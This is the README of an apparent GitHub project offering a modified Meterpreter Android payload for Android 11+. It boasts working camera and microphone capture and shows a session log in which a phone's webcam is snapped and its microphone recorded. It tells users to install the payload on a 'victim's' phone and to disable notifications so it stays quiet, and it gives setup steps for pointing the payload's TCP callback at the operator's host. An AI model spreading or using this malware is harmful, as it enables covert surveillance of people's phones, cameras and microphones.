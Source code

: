 # Meterpreter-Android
<img src="https://cloud.githubusercontent.com/assets/7417870/12315404/6dd58120-bab5-11e5-8a10-d5fec03d38d2.gif" width="100" align="right">
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```

Setting:

Open the file: Nous/app/src/main/java/nous/client/Payload.java

On line 26 edit your host and Port.
```
public static final String URL = "ZZZZtcp://Host:Port
```

Compiler:
https://github.com/LGLTeam/AIDE-Mods

Video:
https://youtu.be/Kwcr8T7V2_Q?si=0iEVAilh98anLtj9
